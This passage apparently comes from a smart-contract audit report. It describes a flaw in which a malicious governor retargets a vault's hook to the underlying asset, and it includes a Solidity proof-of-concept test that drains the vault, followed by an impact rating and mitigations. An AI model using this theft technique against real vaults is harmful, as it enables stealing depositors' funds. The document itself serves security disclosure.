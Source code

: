 As we can see from the previous code snippet, the vault forwards the original calldata from the operation to the hook address. Having control of the target would allow the reproduction of the same messages on arbitrary addresses.

A malicious governor could point the target to the underlying asset and execute the functions associated with the operations from the vault context. In particular, it could hook the transfer operation to steal cash from the vault (as the following test shows).

##### Proof of concept

```solidity
function test_StealAssetsUsingHooks() public {
    address depositor = makeAddr("depositor");
    address aux = makeAddr("aux");
    address gov = address(this);

    uint256 amount = 1e18;
    assetTST.mint(depositor, amount);
    assetTST.mint(gov, amount);

    vm.startPrank(depositor);

    assetTST.approve(address(eTST), type(uint256).max);
    eTST.deposit(amount, depositor);

    vm.stopPrank();

    assetTST.approve(address(eTST), type(uint256).max);
    eTST.deposit(amount, gov);

    // hack
    eTST.setHookConfig(address(assetTST), OP_TRANSFER);
    eTST.transfer(aux, amount);

    vm.prank(aux);
    eTST.withdraw(amount, aux, aux);

    // vault is empty
    assertEq(assetTST.balanceOf(address(eTST)), 0);
}
```

#### Impact

Medium. The issue would allow theft of funds but requires connivance from governance.

#### Recommendation

A direct mitigation could be to ban the asset address from being set as the hook target. Additionally, the interface could be improved by requiring the hook response to be a specific constant, such as a selector, an interface ID, or any arbitrary value that could be used to avoid retargeting hooks to non-compliant addresses.

#### Developer Response
